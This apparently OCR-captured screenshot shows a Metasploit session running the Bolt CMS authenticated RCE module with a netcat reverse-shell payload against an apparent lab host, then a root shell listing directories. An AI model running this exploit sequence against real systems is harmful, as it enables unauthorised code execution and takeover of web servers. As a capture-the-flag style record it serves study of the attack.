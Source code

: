 ```bash
   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to
                                       listen on. This must be an address on t
                                       he local machine or 0.0.0.0 to listen o
                                       n all addresses.
   SRVPORT  8080             yes       The local port to listen on.


Payload options (cmd/unix/reverse_netcat):
>
   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  *********        yes       The listen address (an interface may be s
                                     pecified)
   LPORT  ****             yes       The listen port

>
Exploit target:

   Id  Name
   --  ----
   2   Linux (cmd)



View the full module info with the info, or info -d command.

msf6 exploit(unix/webapp/bolt_authenticated_rce) > exploit

[*] Started reverse TCP handler on 10.13.5.5:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Successfully changed the /bolt/profile username to PHP $_GET variable "jeqhey".
[*] Found 2 potential token(s) for creating .php files.
[+] Deleted file lmpnfitomox.php.
[+] Used token c925498ee60f13926398453f59 to create xqhmfgwkxox.php.
[*] Attempting to execute the payload via "/files/xqhmfgwkxox.php?jeqhey=`payload`"
[!] No response, may have executed a blocking payload!
[*] Command shell session 2 opened (10.13.5.5:4444 -> 10.10.162.118:57122) at 2023-08-12 16:42:27 -0400
[+] Deleted file xqhmfgwkxox.php.
[+] Reverted user profile back to original state.

bash
sh
whoami
root
pwd
/home/bolt/public/files
ls -la
total 16
drwxrwxrwx 2 501 staff 4096 Aug 12 20:42 .
drwxr-xr-x 7 501 staff 4096 Jul 18  2020 ..
-rw-r--r-- 1 501 staff  195 May  7  2020 .htaccess
-rw-r--r-- 1 501 staff    4 May  7  2020 index.html
cd /home
ls -la
total 288
drwxr-xr-x  3 root root   4096 Jul 18  2020 .
drwxr-xr-x 27 root root   4096 Jul 18  2020 ..
drwxr-xr-x 10 bolt bolt   4096 Jul 18  2020 bolt
-rw-r--r--  1 root root 277509 Jul 18  2020 composer-setup.php
```